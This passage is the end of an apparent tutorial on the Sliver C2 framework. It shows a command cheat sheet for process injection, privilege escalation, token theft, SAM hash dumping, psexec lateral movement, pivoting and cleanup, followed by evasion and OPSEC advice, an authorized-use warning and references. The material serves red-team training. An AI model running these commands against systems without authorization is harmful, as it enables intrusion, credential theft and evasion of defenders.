spawndll PATH                             # Spawn process + inject DLL
msf-inject --lhost IP --lport PORT --payload PAYLOAD PID  # MSF shellcode

# ═══════════════════════════════════════════════════
# PRIVILEGE ESCALATION
# ═══════════════════════════════════════════════════
getsystem                                 # Get SYSTEM privileges
impersonate USER                          # Impersonate user
make-token -u USER -p PASS -d DOMAIN      # Create token
steal-token PID                           # Steal process token
rev2self                                  # Revert to original token

# ═══════════════════════════════════════════════════
# CREDENTIAL HARVESTING
# ═══════════════════════════════════════════════════
hashdump                                  # Dump SAM hashes

# ═══════════════════════════════════════════════════
# LATERAL MOVEMENT
# ═══════════════════════════════════════════════════
psexec --target HOST --profile PROFILE    # PSExec lateral movement
migrate PID                               # Migrate to process

# ═══════════════════════════════════════════════════
# PIVOTING
# ═══════════════════════════════════════════════════
named-pipe --pipe-name NAME               # Named pipe pivot listener
tcp-pivot --lport PORT                    # TCP pivot listener
socks5 start                              # Start SOCKS5 proxy
socks5 stop --id ID                       # Stop SOCKS5 proxy
portfwd add --remote HOST:PORT --bind 127.0.0.1:PORT  # Port forward

# ═══════════════════════════════════════════════════
# EXTENSIONS / BOFs
# ═══════════════════════════════════════════════════
armory                                    # List available extensions
armory install NAME                       # Install extension
armory search QUERY                       # Search extensions

# ═══════════════════════════════════════════════════
# CLEANUP
# ═══════════════════════════════════════════════════
beacons rm ID                             # Remove beacon
sessions rm ID                            # Remove session
beacons prune                             # Remove dead beacons
```

---

## Conclusion

Sliver is a **powerful, mature, and actively maintained** C2 framework that provides everything needed for professional red team operations. Its cross-platform support, extensive protocol options, and growing extension ecosystem make it a compelling choice for both offensive security professionals and security researchers.

### Key Takeaways

| Area | Recommendation |
|------|---------------|
| **Implant Type** | Use beacons for stealth, sessions for active exploitation |
| **Protocol** | HTTPS for most scenarios, DNS for highly restricted networks |
| **Evasion** | Use BOFs over fork-and-run, migrate to legitimate processes |
| **Pivoting** | Named pipes for Windows, TCP pivots for Linux, SOCKS5 for tooling |
| **Persistence** | Multiple mechanisms across multiple hosts |
| **OPSEC** | Redirectors, valid certs, appropriate intervals, kill dates |
| **Extensions** | Leverage the armory for BOFs and .NET assemblies |

> **Practice in authorized lab environments only.** Sliver is a legitimate security tool, but unauthorized use constitutes a criminal offense in most jurisdictions. Always have written authorization before conducting any red team engagement.
{: .prompt-danger }

---

## References

- [Sliver Official Documentation](https://sliver.sh/)
- [Sliver GitHub Repository](https://github.com/BishopFox/sliver)
- [Sliver Wiki](https://github.com/BishopFox/sliver/wiki)
- [BishopFox Blog — Sliver](https://bishopfox.com/blog/sliver-c2-framework)
- [Sliver Armory (Extensions)](https://github.com/sliverarmory)
- [Red Team Notes — Sliver C2](https://www.ired.team/)
- [Dominic Breuker — Sliver Tutorial Series](https://dominicbreuker.com/post/learning_sliver_c2/)
- [MITRE ATT&CK — Command and Control](https://attack.mitre.org/tactics/TA0011/)
- [HackTricks — Sliver C2](https://book.hacktricks.xyz/c2/sliver)

---
